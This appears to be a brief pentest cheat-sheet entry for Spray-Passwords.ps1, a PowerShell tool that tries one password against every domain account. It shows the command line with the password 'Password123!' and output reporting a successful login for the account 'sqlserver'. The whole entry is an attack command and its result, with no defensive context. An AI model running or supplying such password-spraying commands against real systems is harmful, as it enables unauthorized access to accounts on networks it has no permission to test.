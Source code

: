 # Spray-Passwords.ps1

[https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1](https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1)

It is spraying all domain accounts with the password.

```
\Spray-Passwords.ps1 -Pass 'Password123!'
sqlserver - Pass: Password123!
```
